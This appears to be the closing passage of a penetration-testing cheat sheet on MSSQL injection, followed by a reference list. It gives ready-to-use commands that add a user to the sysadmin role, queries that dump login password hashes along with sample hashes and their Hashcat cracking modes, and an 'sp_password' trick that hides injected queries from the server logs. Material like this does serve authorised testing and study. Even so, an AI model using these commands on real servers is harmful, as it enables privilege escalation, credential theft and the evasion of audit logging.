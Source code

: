 
### MSSQL Make User DBA

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```


## MSSQL Database Credentials

* **MSSQL 2000**: Hashcat mode 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`
    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
    ```
* **MSSQL 2005**: Hashcat mode 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`
    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```


## MSSQL OPSEC

Use `SP_PASSWORD` in a query to hide from the logs like : `' AND 1=1--sp_password`

```sql
-- 'sp_password' was found in the text of this event.
-- The text has been replaced with this comment for security reasons.
```


## References

- [AWS WAF Clients Left Vulnerable to SQL Injection Due to Unorthodox MSSQL Design Choice - Marc Olivier Bergeron - June 21, 2023](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
- [Error based SQL Injection in "Order By" clause - Manish Kishan Tanwar - March 26, 2018](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
- [Full MSSQL Injection PWNage - ZeQ3uL && JabAv0C - January 28, 2009](https://www.exploit-db.com/papers/12975)
- [IS_SRVROLEMEMBER (Transact-SQL) - Microsoft - April 9, 2024](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)
- [MSSQL Injection Cheat Sheet - @pentestmonkey - August 30, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [MSSQL Trusted Links - HackTricks - September 15, 2024](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
- [SQL Server - Link… Link… Link… and Shell: How to Hack Database Links in SQL Server! - Antti Rantasaari - June 6, 2013](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
- [sys.fn_my_permissions (Transact-SQL) - Microsoft - January 25, 2024](https://docs.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver15)
